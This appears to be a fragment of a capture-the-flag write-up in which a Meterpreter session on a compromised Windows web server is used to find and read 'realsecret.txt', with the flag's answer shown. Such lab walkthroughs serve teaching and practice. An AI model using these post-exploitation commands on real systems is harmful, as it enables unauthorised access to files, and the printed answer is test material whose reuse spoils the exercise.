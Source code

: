 ```
Where is the "realsecret.txt" file located? (Full path of the file)
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                           	Size (bytes)  Modified (UTC)
----                           	------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34        	2021-07-30 09:30:24 +0100
What is the real secret?
	meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"

The Flash is the fastest man alive
```
